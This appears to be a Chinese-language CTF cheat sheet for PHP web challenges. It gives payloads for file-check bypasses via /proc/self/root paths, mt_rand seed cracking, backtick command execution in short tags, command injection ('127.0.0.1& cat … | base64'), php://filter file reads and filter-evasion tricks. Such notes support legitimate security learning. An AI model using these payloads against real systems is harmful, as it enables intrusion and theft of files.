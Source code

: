 ##### is_file() / file_exists()

超过20次软链接后可以绕过：
`?file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php`

`is_file`在使用php的伪协议时候会返回false，除了file://协议以外
`file_exists()`构造不存在的文件
`/nice/../../proc/self/cwd/flag.php` `./nice/../flag.php`

#### php特性之`[`->`_`

php会将怪异的变量名转换成有效的，在进行解析时会删除空白符，并将空格、`+`、`.`、`[` 转换为下划线
但是`[`提前出现后，`[` 会转换成下划线，而后面的字符就不会再被转义了。

#### php伪随机数

`/Users/dionysus/PHP/一些具体的题/伪随机数脚本前.py`
得到target
`cd /Users/dionysus/Downloads/php_mt_seed-4.0`
`time ./php_mt_seed target`
得到种子
`time ./php_mt_seed 762464408`
然后`/Users/dionysus/PHP/一些具体的题/伪随机数脚本后.php`

#### 短标签

`?><?= ·tail /f*·?·>` 这里·指反引号 内联执行
这个标签可以直接输出括号中的内容

#### 命令执行

#### 无过滤或简单过滤

```bash
ls|tee 1.txt #命令输出到1.txt文件中
file | base64 #也可以写成 base64 file
#127.0.0.1& cat 1382668722644.php | base64
代替cat
od #以8进制输出文件
rev #反转读取
cat #由第一行开始显示内容，并将所有内容输出
tac #从最后一行倒序显示内容，并将所有内容输出
more #根据窗口大小，一页一页的现实文件内容
less #和more类似，但其优点可以往前翻页，而且进行可以搜索字符
head #只显示头几行
tail #只显示最后几行
nl #类似于cat -n，显示时输出行号
tailf #类似于tail -f
awk '{print}' 
show_source(next(array_reverse(scandir(pos(localeconv())))));

c=var_dump(scandir('.'));
a=var_dump(scandir("/")); #获取/目录
c=var_dump(file_get_contents('flag.php'));
c=var_dump(file_get_contents('php://filter/read=convert.base64-encode/resource=flag.php'));

#\拼接
fla\g

#拼接变量
a=g;fla$a

#两次编码
```